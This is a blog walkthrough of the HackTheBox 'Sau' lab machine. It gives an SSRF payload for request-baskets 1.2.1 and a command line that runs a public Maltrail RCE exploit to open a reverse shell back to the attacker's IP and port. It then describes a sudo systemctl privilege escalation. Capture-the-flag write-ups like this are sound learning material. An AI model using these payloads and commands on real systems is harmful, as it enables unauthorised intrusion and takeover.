 
> medium-to-markdown@0.0.3 convert
> node index.js https://medium.com/@ahmedgomaa_45441/hackthebox-write-up-sau-machine-438bc39be33f

HackTheBox write up: “Sau” Machine
==================================

[![zerosandones](https://miro.medium.com/v2/resize:fill:88:88/0*g5iT_mFvpwS_KFyc)

](https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-sau-machine-438bc39be33f&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----438bc39be33f---------------------post_header-----------)

5 min read·2 days ago

\--

Listen

Share

Welcome to my first write up for Hackthebox machines!

i thought it would be a good way to help me understand the topics little bit deeper, as i am trying to explain them to others, as well as maybe help others, and share my thought process, breaking into the machine.

https://miro.medium.com/v2/resize:fit:550/format:webp/1*OSckDAMfASUW56DpVUAr8w.png
Sau Machine ( Easy )

Sau machine is your typical Easy linux machine, pretty straight forward in most parts, only one trick in obtaining user flag, and the privilege escalation is a straightforward one ( i spent 40 minutes on it, i might be a little bit stupid ngl ).

Okay, we start as we always do, with basic Nmap scan to the target, and see what do we have here,

```
nmap -sV -sC 10.10.11.224 -v
```

We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts, the -v for verbose results showing, so we get an idea what is going in, while the scan is undergoing.

nmap scan results

We can already see here couple of intresting information, the most eye-catching the open port 55555, which we can see from the results runs some sort of a webpage, lets try to visit it and see whats going on!

Web interface

We are greeted with a web interface, that seems to make some sort of baskets, lets try all the functionalities to try to poke around and get a better idea of what does this application does.

Created a bucket, and recieved respones

We can see here we created a bucket name “lol”, and it gives us an api url “[http://10.10.11.224:55555/lol](http://10.10.11.224:55555/lol)”, where if we send web requests to it, we can log the requests and the respone in the web interface, a simple get request with curl would be with command:

```
curl "http:10.10.11.224:55555/lol" 
```

Now if we take a look at the other fucntionalites provided, we can see in the settings, and option thats called: “Forward URL”

Forward URL? like can i send a request and the server forwards it? to anywhere? can it hit home? 127.0.0.1 kind of home? okay huge potential!

looking around in the other website pages and functionalities, i can help but see a footer that mentions the library used and its version, “request-baskets, version 1.2.1”

okay, thanks for the doing th hardwork, lets see if we can find and public vulnerabilites regarding the version of the software

yeah, i think we pretty much found what are we searching for! ssrf vulnerable library, hehe

using assist from the detailed thread about the SSRF : [https://notes.sjtu.edu.cn/s/MUUhEymt7](https://notes.sjtu.edu.cn/s/MUUhEymt7#)

we see that the api /api/baskets/{name} is vulnerable,

and using the crafted payload to send a post request, that redirects to home(127.0.0.1) and sending it using postman

```
{  
  "forward\_url": "http://127.0.0.1:80/test",  
  "proxy\_response": false,  
  "insecure\_tls": false,  
  "expand\_path": true,  
  "capacity": 250  
}
```

we can see, we have accessed internal page, in the footer of this page, we can notice the library and version, “Maltrail V0.53”.

Again, we lookup to see if there are any public CVEs related to it

we can see there is an RCE exploit available, with POC, lets download this POC from github and see if we can run it!

now if we look at the exploit documentation, we can see the arguments it takes to run it

```
python3 exploit.py \[listening\_IP\] \[listening\_PORT\] \[target\_URL\]
```

in this case, we have

```
python3 exploit.py 10.10.16.7 4444 http://10.10.11.224:55555/lol
```

But before we run it, we need to have a listener running to catch the connection,( Since its a reverse shell, not bind )

And after running the exploit, we can see, we have got our reverse shell successfully!

we can then get our flag which is in the home/puma/flag.txt directory.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — —

Now, we have the user flag, but in order to obtian the root flag, we need to escalate our privilges into root, there are multiple ways we can try to escalate our privilegs through, either with LinEnum or linPeas,

but like to first check manually if we can abuse any GTFObins that can give us root permissions, since its fast and easy step,

we can first start checking by running “sudo -l” to see what can run with sudo without the root password

we can see we can run systemctl with root without the root password, but can we maybe abuse it to give it root permissions? lets check if it is in the GTFObins…

yessir! that means we can use it to escalate our priviliges, we can scroll down to see how exactly,

Lets try ( C ) and see if it works,

yessir!

we can find root flag under /flag.txt!

i hope it was helpful!

see you next time!
